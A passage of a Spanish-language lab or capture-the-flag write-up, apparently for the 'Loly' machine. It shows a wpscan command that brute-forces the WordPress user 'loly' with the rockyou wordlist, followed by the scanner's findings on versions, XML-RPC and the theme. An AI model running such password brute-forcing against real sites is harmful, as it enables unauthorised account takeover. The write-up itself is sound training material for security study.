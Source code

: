 
De primeras si quieras hacer fuerza bruta directamente puedes usar la herramienta `wpscan` y el `rockyou` para probar las contraseñas por que tienes un usuario, cuando usas una herramienta que te automatiza todo pues es mas facil la explotacion

```bash
❯ wpscan --url http://loly.lc/wordpress -U loly -P /usr/share/wordlists/rockyou.txt
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.22
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://loly.lc/wordpress/ [192.168.100.35]
[+] Started: Tue Mar 14 18:11:58 2023

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: nginx/1.10.3 (Ubuntu)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://loly.lc/wordpress/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://loly.lc/wordpress/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://loly.lc/wordpress/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 5.5 identified (Insecure, released on 2020-08-11).
 | Found By: Rss Generator (Passive Detection)
 |  - http://loly.lc/wordpress/?feed=comments-rss2, <generator>https://wordpress.org/?v=5.5</generator>
 | Confirmed By: Emoji Settings (Passive Detection)
 |  - http://loly.lc/wordpress/, Match: 'wp-includes\/js\/wp-emoji-release.min.js?ver=5.5'

[+] WordPress theme in use: feminine-style
 | Location: http://loly.lc/wordpress/wp-content/themes/feminine-style/
 | Last Updated: 2022-02-16T00:00:00.000Z
 | Readme: http://loly.lc/wordpress/wp-content/themes/feminine-style/readme.txt
 | [!] The version is out of date, the latest version is 3.0.3
 | Style URL: http://loly.lc/wordpress/wp-content/themes/feminine-style/style.css?ver=5.5
```